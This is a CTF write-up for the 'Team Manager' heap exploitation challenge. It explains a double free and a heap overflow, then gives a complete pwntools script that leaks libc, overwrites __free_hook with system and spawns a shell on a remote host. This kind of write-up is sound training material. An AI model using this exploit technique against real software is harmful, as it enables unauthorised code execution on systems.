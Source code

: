 ```yaml
---
title: "Team Manager [300]"
tags: [Timisoara CTF, Binary Exploitation]
excerpt: "Binary Exploitation"
--- 
```


**Category:** Binary Exploitation 

> I found the team manager service used for Timisoara CTF. Do you think it is secure?  
nc 89.38.208.144 11114

## Write-up
Running the binary instantly shows this is a standard heap challenge:
```
Welcome to the Timctf Team Manager
1: Add player
2: Remove player
3: Edit player
4: View player
5: View team
0: Exit
```

After analyzing the binary using Ghidra, a few observations can be made:
* Chunks on the heap can be freed multiple times without checks. There is a double free() vulnerability, which leaks an address pointing to the heap.
* Input is vulnerable to a heap overflow. By overflowing the "comments" section for one chunk, we can overwrite addresses on the following chunk.

The exploit follows the following order:

1. **Leak heap address**  
Leak the heap address using the double free() vulnerability. The address is stored in the "reversing and exploitation" and "crypto" areas in the heap. Viewing the team outputs the leaked heap address.

2. **Leak printf address**  
Using the heap overflow, overwrite the pointer to the "comments" section in the second chunk with the address of `printf` in the `GLOBAL OFFSET TABLE (GOT)`.Viewing the second player outputs the leaked `printf` address.

3. **Calculate libc base**  
Standard ret2libc procedure. Libc base can be calculated using `printf - printf_offset`, where `printf` is the leaked address and `printf_offset` is the address of `printf` in libc. With libc base value, the address of `__free_hook` and `system` can be calculated using `libc_base + system_offset` and `libc_base + __free_hook_offset` respectively.

4. **Overwrite __FREE_HOOK pointer with system**  
Overwrite the pointer to the "comments" section in the second chunk with the address of `__free_hook`. This makes the pointer point to the `__free_hook` instead. `__free_hook` can then be overwritten with the address of `system` by editing the "comments" of the second chunk. Calling free() now calls system() instead.

5. **Write /bin/sh into heap address**
Write the string `/bin/sh\x00` (*0x0068732f6e69622f* in hex) into the leaked heap address. The argument for free() is stored in this address when free() is called. When calling free() on first chunk, system(/bin/sh) is called instead, which executes a shell.

Here's the final exploit:
```python
from pwn import *
from LibcSearcher import LibcSearcher
import sys

config = {
    "elf" : "./timctf_manager",
    "libc" : "./libc-2.27.so",
    "ld" : "./ld-2.27.so",
    "HOST" : "89.38.208.144",
    "PORT" : 11114,
}

def add(pid, name, reversing, web, crypto, forensics, comment):
	sla("0: Exit", "1")
	sla("Enter player id (1-4) ", str(pid))
	sla("Player's name: ", name)
	sla("Player's skill at reversing and exploitation: ", str(reversing)) 
	sla("Player's skill at web exploit: ", str(web))
	sla("Player's skill at crypto: ", str(crypto))
	sla("Player's skill at forensics: ", str(forensics))
	sla("Extra note/comment: ", comment)

def remove(pid):
	sla("0: Exit", "2")
	sla("Enter player id (1-4) ", str(pid))

def edit(pid, name, reversing, web, crypto, forensics, comment):
	sla("0: Exit", "3")
	sla("Enter player id (1-4) ", str(pid))
	sla("Player's name: ", name)
	sla("Player's skill at reversing and exploitation: ", str(reversing)) 
	sla("Player's skill at web exploit: ", str(web))
	sla("Player's skill at crypto: ", str(crypto))
	sla("Player's skill at forensics: ", str(forensics))
	sla("Extra note/comment: ", comment)

def viewplayer(pid):
	sla("0: Exit", "4")
	sla("Enter player id (1-4) ", str(pid))

def viewteam():
	sla("0: Exit", "5")

def tohex(val, nbits):
  return hex((val + (1 << nbits)) % (1 << nbits))

def exploit(p):
	print_menu = 0x00400827
	printf_got = elf.got['printf']
	data  = elf.get_section_by_name(".data").header.sh_addr

	add(1, "", 1, 2, 3, 4, "")
	add(2, "", 1, 2, 3, 4, "")
	remove(1)
	remove(1)
	viewteam()

	ru('reversing and exploitation: ')
	lo = int(p.recvline().strip())
	lo = str(tohex(lo, 32))[2:]
	ru("crypto: ")
	hi = str(hex(int(p.recvline().strip())))
	leak = int(hi + lo, 16)

	payload = "\x90"*264 + p64(0x61) + p32(2)*4 + p64(printf_got)

	edit(1, "", 1, 1, 1, 1, payload)
	viewplayer(2)
	ru("Extra note/comment: ")

	printf = u64(r(8))
	base = printf - libc.symbols['printf']
	free_hook = base + libc.symbols['__free_hook']
	system = base + libc.symbols['system']
	
	payload = "\x90"*264 + p64(0x61) + p32(2)*4 + p64(free_hook)
	edit(1, "", 1, 1, 1, 1, payload)
	edit(2, "", 2, 2, 2, 2, p64(system))

	payload = "\x90"*264 + p64(0x61) + p32(2)*4 + p64(leak)
	edit(1, "", 1, 1, 1, 1, payload)
	edit(2, "", 2, 2, 2, 2, p64(0x0068732f6e69622f))
	remove(1)
	
	p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])

    if "libc" in config.keys() and config["libc"]:
        libc = ELF(config["libc"])

    if sys.argv[-1] == "remote":
        p = remote(config["HOST"], config["PORT"])
    else:
        if "libc" in dir(): 
            p = process([config["ld"], config["elf"]], env={"LD_PRELOAD" : config["libc"]})
        else: 
            p = process(config["elf"])

        pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    r = lambda a: p.recv(a)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

    exploit(p)
```

**Flag:** TIMCTF{Heap_overfl0ws_are_really_B4D}